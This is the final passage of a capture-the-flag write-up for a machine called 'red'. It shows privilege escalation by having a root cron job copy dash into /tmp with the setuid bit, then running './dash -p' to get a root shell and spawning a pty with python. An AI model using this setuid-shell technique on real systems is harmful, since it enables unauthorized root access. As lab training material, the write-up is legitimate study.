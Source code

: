 So when the cron job run the script as root user the binry `dash` will be copied to the `/tmp` folder and `u+s` permissions are applied. So then we can run the binary as the owner which is root and that will give us root shell.

```sh
www-data@red:/tmp$ ls -al
-rwsr-xr-x  1 root root 173644 Oct  2 06:40 dash
```

The exploit worked and run the binary as follows to obtain root.

```sh
www-data@red:/tmp$ ./dash -p
./dash -p
whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.3$ 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).